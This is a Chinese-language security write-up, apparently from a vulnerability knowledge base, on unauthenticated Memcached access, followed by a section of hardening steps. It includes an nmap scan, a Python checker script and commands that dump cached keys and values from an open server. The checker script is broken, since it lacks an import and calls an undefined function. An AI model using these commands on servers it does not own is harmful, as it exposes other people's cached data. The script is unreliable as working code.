 ```yaml
---
title: Memcache未授权访问
id: zhfly3015
---
```


# Memcache未授权访问

## 一、漏洞简介

> memcached是一套分布式的高速缓存系统。它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

## 二、影响范围

## 三、复现过程

#### 1.扫描探测

```
nmap -sV -p 11211 --script memcached-info 0.0.0.0 
```

![image](../img/7aa812cfbceb4199c38b706f39e8fdb0.png)

```
##! /usr/bin/env python
## _*_  coding:utf-8 _*_
def Memcache_check(ip, port=11211, timeout=5):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("stats\r\n")
        result = s.recv(1024)
        if "STAT version" in result:
            print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
    except Exception, e:
        pass
if __name__ == '__main__':
    Elasticsearch_check("127.0.0.1") 
```

#### 2.攻击利用

##### 2.1 基础部分

通过一个cheat sheet了解一下Memcached的协议。Memcached的语法由如下元素组成

*   {COMMAND}0x20{ARGUMENT}(LF|CRLF)

command字段有如下几条命令

*   存储操作(set, add, replace, append, prepend, cas)
*   检索操作 (get, gets)
*   删除操作 (delete)
*   增减操作 (incr, decr)
*   touch
*   slabs reassign
*   slabs automove
*   lru_crawler
*   统计操作(stats items, slabs, cachedump)
*   其他操作 (version, flush_all, quit)

| Command | 描述 | 实例 |
| --- | --- | --- |
| get | 读某个值 | get mykey |
| set | 强制设置某个键值 | set mykey 0 60 5 |
| add | 添加新键值对 | add newkey 0 60 5 |
| replace | 覆盖已经存在的key | replace key 0 60 5 |
| flush_all | 让所有条目失效 | flush_all |
| stats | 打印当前状态 | stats |
| stats malloc | 打印内存状态 | stats malloc |

version | 打印Memcached版本 | version

```
stats  //查看memcache 服务状态
stats items  //查看所有items
stats cachedump 32 0  //获得缓存key
get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露 
```

#### 2.2 建立连接并获取信息

telnet 11211，或 nc -vv 11211，无需用户名密码，可以直接连接memcache 服务的11211端口。

![image](../img/b211b7e748c0dc06385cd5b03f97a3f5.png)
附赠大佬写的文章 [Discuz!因Memcached未授权访问导致的RCE](https://xz.aliyun.com/t/2018)

#### 3.防范措施

##### 1.限制访问

如果memcache没有对外访问的必要，可在memcached启动的时候指定绑定的ip地址为 127.0.0.1。其中 -l 参数指定为本机地址。例如：
memcached -d -m 1024 -u root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

或者 vim /etc/sysconfig/memcached，修改配置文件
OPTIONS="-l 127.0.0.1"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached reload

##### 2.防火墙

```
// accept
## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

// drop

## iptables -I INPUT -p tcp --dport 11211 -j DROP

## iptables -I INPUT -p udp --dport 11211 -j DROP

// 保存规则并重启 iptables

## service iptables save

## service iptables restart 
```

##### 3.使用最小化权限账号运行Memcached服务

使用普通权限账号运行，指定Memcached用户。

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid 
```

##### 4.启用认证功能

Memcached本身没有做验证访问模块,Memcached从1.4.3版本开始，能支持SASL认证。[SASL认证详细配置手册](http://www.postfix.org/SASL_README.html?spm=a2c4g.11186623.2.5.RpKdcX##saslauthd)

##### 5.修改默认端口

修改默认11211监听端口为11222端口。在Linux环境中运行以下命令：

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid 
```

##### 6.定期升级

参考:

*   http://lzone.de/cheat-sheet/memcached
*   https://www.secpulse.com/archives/49659.html
*   https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/
*   https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
*   http://niiconsulting.com/checkmate/2013/05/memcache-exploit/
*   https://xz.aliyun.com/t/2018
*   http://drops.xmd5.com/static/drops/web-8987.html
*   https://blog.csdn.net/microzone/article/details/79262549
